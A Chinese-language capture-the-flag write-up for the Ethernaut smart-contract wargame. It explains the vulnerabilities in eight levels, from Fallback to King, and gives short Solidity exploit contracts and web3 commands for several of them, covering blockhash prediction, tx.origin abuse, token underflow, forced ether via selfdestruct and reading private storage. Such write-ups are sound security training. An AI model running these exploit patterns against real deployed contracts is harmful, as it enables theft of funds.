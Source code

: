 https://ethernaut.openzeppelin.com/

# challenges

## Fallback

此challenge重点在[fallback函数](https://docs.soliditylang.org/en/latest/contracts.html?highlight=fallback#fallback-function)

fallback函数在以下情况会执行：
- 调用该合约中不存在的函数
- 有账户向该合约发送以太币(没有相应的接收函数)

通过`contract.sentTransaction({value: 1})`即可调用`fallback()`函数

## Coin Flip

此challenge重点在随机数安全

通过challenge的条件是连续猜对十个bool值，该bool是从上一个区块的哈希值计算出：
```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
uint256 coinFlip = blockValue.div(FACTOR);
bool side = coinFlip == 1 ? true : false;
```

上一个区块的哈希值是链上公开数据。解决方法是：自己部署一个合约，用相同的逻辑计算出该bool值，再调用challenge中的合约把事先计算出的答案传递过去。

```solidity
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol';
import './coinflip.sol';

contract CoinFlipPoc {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip target;
  
  constructor (address adimAddr) public {
      target = CoinFlip(adimAddr);
  }

  function hack() public {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip =uint256(uint256(blockValue) / FACTOR);
      bool guess = coinFlip == 1 ? true : false;
      target.flip(guess);
  }
}
```

## Telephone

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

[官方文档](https://docs.soliditylang.org/en/latest/cheatsheet.html?highlight=tx.origin#global-variables)
`tx.origin`和`msg.sender`的区别

- `msg.sender` (address): sender of the message (current call)
- `tx.origin` (address): sender of the transaction (full call chain)

然后合约中可以调用其他合约。自己起个合约调用challenge合约中的`changeOwner`函数即可。
此时`tx.origin`就是我的地址，`msg.sender`是我部署的合约的地址。

```solidity
pragma solidity ^0.6.0;

import './telephone.sol';

contract Exp_Telephone {

  Telephone public aim;

  constructor(address _aim) public {
    aim = Telephone(_aim);
  }

  function hack(address me) public {
    aim.changeOwner(me);
  }
}
```

## Token

正整形数的下溢

```solidity
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

用户初始balances为20，只要向其他地址发送大于20的就会产生下溢，得到一个很大的数字。

```javascript
await contract.transfer("0x"+"0".repeat(40), 21)
```

## Delegation

参考https://paper.seebug.org/633

几种调用合约方法的区别：

- call: msg 的值会修改，执行环境改变
- delegatecall: msg 的值不会被修改，执行环境不变
- callcode: msg 的值会被修改，执行环境不变

delegatecall和callcode的执行环境不变，并不是变量名相同

而是指在赋值的时候，该变量在此合约对应slot映射到原来合约的slot

见 https://github.com/ethereum/solidity/issues/944

其次这三个函数的调用方法都相同，均为：

```solidity
addr.call(bytes4(keccak256("test()")));  // no params
addr.call(bytes4(keccak256("test(uint256)")), 10);  // with params
```

web3中的调用方法为：

```javascript
await contract.sendTransaction({data: web3.utils.sha3("pwn()").slice(0,10)});
```

## Force

合约没有任何内容，challenge通过的条件为合约地址中余额大于0

```javascript
web3.eth.sendTransaction({from: player, to: contract.address, value: 1})
```

直接发送会失败。
两种方法：

- 创建一个合约并让它自毁，指定自毁后余额去向
- 挖矿并将奖励接收地址设置为它

payload：

```solidity
pragma solidity ^0.6.0;

contract Force_exp {
    constructor() payable public{}
    
    function exp(address aim) public{
        selfdestruct(payable(aim));
    }
}
```

## Vault

该challenge有一个被private修饰的password，需要获取password值。

[官方文档](https://docs.soliditylang.org/en/latest/contracts.html?highlight=private#visibility-and-getters) 
描述针对状态变量的三种visibility区别：

- `public` can be either called internally or via messages. For public state variables, an automatic getter function (see below) is generated.
- `internal` can only be accessed internally (i.e. from within the current contract or contracts deriving from it), without using this. This is the default visibility level for state variables.
- `private` only visible for the contract they are defined in and not in derived contracts.

下面还给了个note：

>Everything that is inside a contract is visible to all observers external to the blockchain. Making something private only prevents other contracts from reading or modifying the information, but it will still be visible to the whole world outside of the blockchain.

也就是说，private仅仅起到可以不被其他合约读取和修改，但还是属于链上公开信息。

```solidity
constructor(bytes32 _password) public {
  locked = true;
  password = _password;
}
```

该合约在创建时，password是输入数据，因此顺着合约地址找到 [区块链浏览器](https://rinkeby.etherscan.io/) 上对应创建合约的这笔交易信息的State中可以看到对State的修改也即password的修改

更好的做法是利用web3

```javascript
web3.utils.toAscii(await web3.eth.getStorageAt(contract.address, 1))
```

## King

此challenge提供了一种攻击transfer()的方法

由于transfer调用失败时会进行回滚，后面的代码无法执行，构造一个没有实现payable的合约地址，即可使下面代码一直调用失败：

```solidity
givenaddress.transfer(msg.value);
```